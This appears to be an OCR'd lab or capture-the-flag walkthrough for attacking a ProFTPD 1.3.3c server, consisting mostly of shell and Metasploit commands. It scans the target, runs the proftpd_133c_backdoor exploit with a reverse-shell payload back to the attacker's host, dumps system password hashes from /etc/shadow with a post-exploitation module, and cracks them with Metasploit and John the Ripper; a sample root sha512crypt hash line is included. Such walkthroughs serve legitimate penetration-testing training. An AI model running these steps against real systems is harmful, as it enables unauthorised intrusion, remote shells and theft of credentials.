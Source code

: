 ```shell
ping -c 1 <target_IP>
nmap -sV <target_IP>

searchsploit ProFTPD # Now check for the version detected by nmap
# We have discovered a proftpd 1.3.3c server running on the target machine. We will run nmap vuln script to identify the vulnerability.
nmap --script vuln -p 21 <target_IP>

service postgresql start && msfconsole # /etc/init.d/postgresql start
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
set payload /cmd/unix/reverse # To be set first before the LHOST
set RHOSTS <target_IP>
set LHOST <local_IP>
exploit -z
# -z flag is used with the exploit command to run an exploit without interacting with a new session after execution
```

**Use the post exploitation module to dump the system users hashes**

```shell 
search hashdump
use post/linux/gather/hashdump
set SESSION 1
exploit
loot
```

**Run the provided auxiliary module to find the plain text password of the root user.**

```shell
search crack linux
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

**Using John**

```shell
john --format=sha512crypt <hash_file> --wordlist=<wordlist>
```

The module does **not go out and find hashes by itself**. It depends on the fact that:
1. You (or a post-exploitation module) have already **dumped the hashes** (e.g., from `/etc/shadow`)
2. Metasploit **stored those hashes** in its internal database (via `loot`, `creds`, or `post modules`)
3. `analyze/crack_linux` reads those stored hashes and cracks them

**Example: **

root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:18348:0:99999:7:::
